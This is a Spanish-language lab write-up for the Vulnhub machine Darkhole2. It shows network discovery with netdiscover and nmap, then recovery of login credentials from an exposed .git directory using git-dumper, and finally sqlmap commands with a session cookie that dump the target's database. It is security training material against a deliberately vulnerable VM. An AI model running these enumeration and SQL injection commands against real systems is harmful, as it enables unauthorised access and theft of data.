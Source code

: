 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox
![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)
## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo
![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)
~~~
netdiscover
~~~
Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:
![]()
~~~
nmap -A 192.168.40.133
~~~
De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git

## Enumerar el servidor web
![]()
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.
![]()
Decidimos echar un vistazo a la página de inicio de sesión
![]()
Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![]()
Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git
![]()
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~
Después de descargar la herramienta, intentamos ejecutarla con python .
Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para progresar en este laboratorio.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup 
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"
